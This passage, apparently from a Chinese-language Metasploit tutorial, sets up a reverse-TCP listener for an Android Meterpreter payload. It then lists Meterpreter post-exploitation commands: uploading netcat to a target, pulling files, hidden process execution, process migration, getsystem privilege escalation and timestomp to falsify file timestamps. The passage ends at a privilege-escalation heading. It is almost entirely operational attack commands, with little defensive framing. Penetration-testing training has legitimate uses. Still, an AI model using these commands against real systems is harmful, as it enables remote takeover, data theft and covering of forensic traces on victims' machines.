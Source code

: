     
    
    msf > use multi/handler
    msf exploit(handler) > set payload android/meterpreter/reverse_tcp
    payload => android/meterpreter/reverse_tcp
    msf exploit(handler) > set LPORT 23333
    LPORT => 23333
    msf exploit(handler) > set LHOST 10.42.0.1
    LHOST => 10.42.0.1
    msf exploit(handler) > exploit
    

# 0x02 Go on:)

* * *

## 基本命令：

    
    
    background  # 让meterpreter处于后台模式  
    sessions -i number   # 与会话进行交互，number表示第n个session  
    quit  # 退出会话  
    shell # 获得命令行
    cat c:\\boot.ini   # 查看文件内容  
    getwd # 查看当前工作目录 work directory  
    upload /root/Desktop/netcat.exe c:\\ # 上传文件到目标机上  
    download 0xfa.txt /root/Desktop/   # 下载文件到本机上  
    edit c:\\boot.ini  # 编辑文件  
    search -d d:\\www -f web.config # search 文件 
    ps # 查看当前活跃进程  
    migrate  pid # 将Meterpreter会话移植到进程数位pid的进程中  
    execute -H -i -f cmd.exe # 创建新进程cmd.exe，-H不可见，-i交互  
    getpid # 获取当前进程的pid  
    kill pid # 杀死进程  
    getuid # 查看权限  
    sysinfo # 查看目标机系统信息，如机器名，操作系统等  
    getsystem #提权操作
    timestompc:/a.doc -c "10/27/2015 14:22:11" #修改文件的创建时间
    

### 迁移进程

    
    
    meterpreter > ps
    

自行选择PID

    
    
    meterpreter > migrate pid
    

### 提权操作
